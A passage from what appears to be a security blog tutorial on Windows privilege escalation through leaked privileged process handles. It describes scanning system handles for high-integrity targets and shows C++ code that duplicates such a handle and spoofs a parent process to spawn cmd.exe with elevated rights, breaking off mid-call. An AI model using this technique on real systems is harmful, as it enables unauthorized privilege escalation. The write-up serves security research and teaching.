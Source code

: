 In this block of code we start out by defining a `std::vector` called `vSysHandle` which will hold the interesting `SYSTEM_HANDLE`s. After that we start the usual iteration of the data returned by `NtQuerySystemInformation`, only this time we skip the handles held by our current process. We then check the integrity level of the process which holds the handle we are currently analyzing through the helper function  I wrote called `GetTargetIntegrityLevel`. This function basically returns a `DWORD` telling us the integrity level of the token associated with the PID it receives as argument and is adapted from a number of PoCs and MSDN functions available online. 

Once we've retrieved the integrity level of the process we make sure it's less than high integrity, because we are interested in medium or low integrity processes holding interesting handles and we also make sure the `SYSTEM_HANDLE` we are working with is of type process (`0x7`). Checked that, we move to checking the access the handle grants. If the handle is not `PROCESS_ALL_ACCESS` or doesn't hold any of the flags specified, we skip it. Else, we move further, retrieve the PID of the process the handle refers to, and get its integrity level. If it's high integrity or even higher (e.g. SYSTEM) we save the `SYSTEM_HANDLE` in question inside our `vSysHandle` for later (ab)use. 

This, kids, is how you automate leaked privileged handle hunting. Now that we have a vector holding all these interesting handles it's time for the exploit!

### Gaining the upper hand(le)!
We have scanned the haystack and separated the needles from the hay, now what? Well, again [dronesec's blogpost](http://dronesec.pw/blog/2019/08/22/exploiting-leaked-process-and-thread-handles/) details what you can do with each different access, but let's focus on the more common and easy to exploit: `PROCESS_ALL_ACCESS`.

First off, we start by opening the process which holds the privileged handle and subsequently clone said handle.

```c++
DWORD ownerPid = SysHandle.ProcessId;
HANDLE elevatedToken = NULL;
auto hOwner = OpenProcess(PROCESS_DUP_HANDLE, false, ownerPid);
HANDLE clonedHandle;
auto success = DuplicateHandle(hOwner, (HANDLE)sysHandle.Handle, GetCurrentProcess(), &clonedHandle, NULL, false, DUPLICATE_SAME_ACCESS);
```
This is fairly easy and if you skip error control, which you shouldn't skip (right, [h0nus](https://twitter.com/h0nus)?), it boils down to only a handful of code lines. First you open the process with `PROCESS_DUP_HANDLE` access, which is the least amount of privilege required to duplicate a handle, and then call `DuplicateHandle` on that process, telling the function you want to clone the handle saved in `sysHandle.Handle` (which is the interesting handle we retrieved before) and save it into the current process in the `clonedHandle` variable.

In this way our process is now in control of the privileged handle and we can use it to spawn a new process, spoofing its parent as the privileged process the handle points to, thus making the new process inherit its security context and getting, for example, a command shell.
```c++
STARTUPINFOEXW sinfo = { sizeof(sinfo) };
PROCESS_INFORMATION pinfo;
LPPROC_THREAD_ATTRIBUTE_LIST ptList = NULL;
SIZE_T bytes = 0;
sinfo.StartupInfo.cb = sizeof(STARTUPINFOEXA);
InitializeProcThreadAttributeList(NULL, 1, 0, &bytes);
ptList = (LPPROC_THREAD_ATTRIBUTE_LIST)malloc(bytes);
InitializeProcThreadAttributeList(ptList, 1, 0, &bytes);
UpdateProcThreadAttribute(ptList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &clonedHandle, sizeof(HANDLE), NULL, NULL);
sinfo.lpAttributeList = ptList;
std::wstring commandline = L"C:\\Windows\\System32\\cmd.exe";

auto success = CreateProcessW(
	nullptr,
	&commandline[0],
	NULL,
	NULL,
	true,
```